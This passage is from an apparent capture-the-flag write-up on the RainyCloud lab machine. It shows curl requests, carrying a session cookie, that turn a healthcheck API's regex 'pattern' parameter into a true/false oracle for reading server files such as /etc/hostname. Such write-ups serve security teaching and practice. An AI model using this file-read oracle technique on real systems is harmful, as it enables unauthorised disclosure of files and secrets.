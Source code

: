 If I change `type` to something that wasn’t in the example, it returns a 500 error:

```

oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=0xdf" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

```

If `type` is `CUSTOM`, there’s another error:

```

oxdf@hacky$ proxychains curl -X POST -d "file=/bin/bash&type=CUSTOM" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
Pattern required when using custom type

```

In the example, the `pattern` was `^root.*`, which is the regular expression for starts with “root” and then followed by 0 or more of any character. My theory is that the regex is applied to the contents of the file, and `result` is set based on if it matches.

To test this, I’ll experiment on `/etc/hostname`. It seems reasonable to guess that the file does not start with “a”, and sending a `pattern` of `^a.*` does return false:

```

oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^a.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
false

```

It might reasonably start with “r”, and changing `pattern` to `^r.*` does in fact return `true`:

```

oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^r.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
true

```

### File Read

The full process of my creating a script to read files here in [this video](https://www.youtube.com/watch?v=cu_wOqZbCqw):
